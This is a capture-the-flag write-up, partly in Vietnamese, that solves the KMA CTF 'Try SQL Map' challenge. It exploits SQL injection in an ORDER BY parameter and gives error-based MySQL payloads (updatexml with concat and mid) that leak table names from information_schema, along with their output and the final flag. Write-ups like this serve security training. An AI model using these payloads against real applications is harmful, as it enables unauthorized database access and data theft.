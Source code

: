 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fully obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`

**Góc than thở**:
```
Trước khi kết luật điều gì, check kĩ liệu payload có lỗi, hàm nào thực sự bị block. Mỗi chall lỗi nó dump khác nhau, đôi khi éo dump, tiêu chỉnh từ từ, đừng dại
```
